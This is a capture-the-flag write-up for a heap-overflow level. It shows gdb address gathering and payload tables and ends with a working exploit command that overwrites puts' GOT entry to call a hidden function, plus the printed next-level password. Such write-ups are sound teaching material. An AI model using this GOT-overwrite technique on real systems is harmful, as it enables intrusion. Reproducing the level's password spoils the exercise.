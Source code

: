 ## GOT some Heap overlow ? (level7)

This level's [binary](level7/source.c) requires two arguments, otherwise it
segfaults. Then, upon this argument treatment it prints "~~".

This time, four mallocs are done in a row, all of 8 bytes. Two of them will be
used as destinations for strcpy calls. The first one from argv[1] and the second
one from argv[2] \(hence the segfaults when providing less than two arguments).
This means that we have two places to overflow from. The first target is a fgets
call just after a fopen of the next level's password file. The destination
buffer is _c_ which is a global pointer set to NULL as it is not explicitly
initialized. We need to set _c_ to a value we can read from so that the password
is stored somewhere we can access. Then we actually need to access the thing.
For this, there is an uncalled function _m_ which contains a printf call that
prints _c_ as a string. So we must execute a GOT overwrite for the puts call
just after the fgets (the one that prints "~~"). This should lead us to the
password.

First let's get all the addresses we need:

```shell
# run gdb on the binary
gdb ./level7
# get c's address
(gdb) i addr c
Symbol "c" is at 0x8049960 in a file compiled without debugging.
# get m's address
(gdb) i addr m
Symbol "m" is at 0x80484f4 in a file compiled without debugging.
# get puts' got address
(gdb) disass main
...
   0x080485f7 <+214>:   call   0x8048400 <puts@plt>
...
(gdb) x/3i 0x8048400
   0x8048400 <puts@plt>:        jmp    *0x8049928 # puts' got address
   0x8048406 <puts@plt+6>:      push   $0x28
   0x804840b <puts@plt+11>:     jmp    0x80483a0
# then break after each malloc call to get the allocations addresses
(gdb) b *0x08048536
Breakpoint 1 at 0x8048536
(gdb) b *0x08048550
Breakpoint 2 at 0x8048550
(gdb) b *0x08048565
Breakpoint 3 at 0x8048565
(gdb) b *0x0804857f
Breakpoint 4 at 0x804857f
(gdb) run aaaa bbbb
Starting program: /home/user/level7/level7 aaaa bbbb

Breakpoint 1, 0x08048536 in main ()
(gdb) x/1x $eax
0x804a008:      0x00000000
(gdb) c
Continuing.

Breakpoint 2, 0x08048550 in main ()
(gdb) x/1x $eax
0x804a018:      0x00000000
(gdb) c
Continuing.

Breakpoint 3, 0x08048565 in main ()
(gdb) x/1x $eax
0x804a028:      0x00000000
(gdb) c
Continuing.

Breakpoint 4, 0x0804857f in main ()
(gdb) x/1x $eax
0x804a038:      0x00000000
```

Results:

| c         | m         | puts' got | malloc 1  | malloc 2  | malloc 3  | malloc 4  |
|-----------|-----------|-----------|-----------|-----------|-----------|-----------|
| 0x8049960 | 0x80484f4 | 0x8049928 | 0x804a008 | 0x804a018 | 0x804a028 | 0x804a038 |

Of course all the allocated memory is way after c or puts' got location in the
program's memory. Then what we need to do is use the first strcpy call to
overwrite the second's call destination address. This way we can start writing
from where we want. Since we must write in put's got and in _c_ and that put's
got address is before _c_ it would make sense to start from there.

What we must do (value --> destination):
* _puts' got_ --> _malloc 3_ + 4 bytes
* _m_ --> _puts' got_
* some valid memory zone (_malloc 1_) --> _c_

The first strcpy call has _malloc 2_ for destination. The second one starts at
the address pointed to at _malloc 3_ + 4 bytes. It's _malloc 4_ but it can be
overwritten by the first strcpy. _malloc 3_ + 4 bytes is at 0x804a02c. So here
is the first payload:

| padding bytes (20) | puts' got (4) |
|--------------------|---------------|
| "a" * 20           | 0x8049928     |


The second strcpy payload will just contain _m_'s address to replace puts' got:

| m's address (4) |
|-----------------|
| 0x80484f4       |

> There is actually no need to change c's value. It looks like it is in fact 
> initialized when level7 is running out of gdb.

So here is the command to execute for this level:

```shell
./level7 $(python -c 'print "a" * 20 + "\x08\x04\x99\x28"[::-1]') $(python -c 'print "\x08\x04\x84\xf4"[::-1]')
5684af5cb4c8679958be4abe6373147ab52d95768e047820bf382e44fa8d8fb9
 - 1657074326
```
